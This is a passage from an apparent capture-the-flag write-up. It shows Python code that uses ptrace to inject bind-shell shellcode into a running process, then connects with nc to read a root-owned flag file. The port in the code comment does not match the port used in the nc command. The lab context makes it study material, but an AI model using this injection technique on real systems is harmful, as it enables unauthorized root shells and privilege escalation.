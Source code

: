 # Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)

# Retrieve the value stored in registers
registers=user_regs_struct()
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: {:016X}".format(registers.rip))
print("Injecting Shellcode at: {:016X}".format(registers.rip))

# Shell code copied from exploit db: BIND: localhost-TCP/5600
shellcode=b"\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in range(0,len(shellcode),4):
    # Convert the byte to little endian.
    shellcode_byte_int=int(codecs.encode(shellcode[i:4+i], 'hex'),16)
    print("BYTE: {}".format(shellcode_byte_int))
    shellcode_byte_little_endian=codecs.encode(
        struct.pack("<I", shellcode_byte_int)
        .rstrip(b'\x00')
        , 'hex'
    )
    shellcode_byte=int(shellcode_byte_little_endian,16)
    # Inject the byte.
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)


# Modify the instruction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print(f"Final Instruction Pointer: {hex(registers.rip)}")

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
{% endhighlight %}

After running it by opening a `python3.7` interpreter and pasting it in, we were able to connect to the new bind shell.

{% highlight bash %}
chosen@b78b6d382aea:/$ nc localhost 5400

cat /root/flag.txt
flag{oh_the_humanity}
{% endhighlight %}

**Flag:** `flag{oh_the_humanity}`
